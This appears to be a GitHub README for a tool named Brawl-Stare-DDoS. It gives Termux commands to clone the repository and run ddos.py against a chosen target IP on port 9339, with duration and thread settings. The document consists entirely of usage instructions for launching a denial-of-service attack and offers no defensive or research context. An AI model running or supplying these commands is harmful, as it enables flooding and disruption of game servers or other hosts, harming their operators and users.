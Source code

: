 # Brawl-Stare-DDoS
#Run this command in Termux

git clone https://github.com/turkhack3131/Brawl-Stare-DDoS.git

cd Brawl-Stare-DDoS

ls

python ddos.py --ip <target_ip> --port 9339 --duration 20 --threads 4
